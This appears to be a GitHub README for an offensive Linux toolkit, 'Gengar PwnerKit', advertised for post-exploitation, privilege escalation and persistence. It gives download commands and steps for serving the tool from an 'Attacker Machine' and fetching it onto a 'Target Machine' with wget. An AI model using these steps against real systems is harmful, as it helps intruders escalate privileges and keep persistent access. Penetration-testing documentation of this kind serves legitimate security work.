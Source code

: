 # Gengar PwnerKit
> ## | Post Exploration | Privilege Escalation | Persistence |
> 
>                  ![image](https://github.com/h0ru/gpk/blob/main/gengar.gif)
>
> ---

> ## How to install?
> ### Wget:
> ```
> wget -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk ; chmod +x gpk
> ```
> ### Curl: 
> ```
> curl -q https://raw.githubusercontent.com/h0ru/gpk/main/gpk -O gpk ; chmod +x gpk
> ```
> ---

> ## How to upload to targets machine?
> ### 1. Download the GPK
> ### 2. Attacker Machine:  
> ```
> python3 -m http.server PORT
> ``` 
> ### 3. Target Machine:
> ```
> wget YOURIP:PORT/gpk ; chmod +x gpk
> ```
> ---

> ## Menus
> ![image](https://github.com/h0ru/gpk/blob/main/menus.png)
> ---

> ## GPK uses these other scripts
> ### ➫ [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
> ### ➫ [Linux Exploit Suggester ](https://github.com/The-Z-Labs/linux-exploit-suggester)
> ---
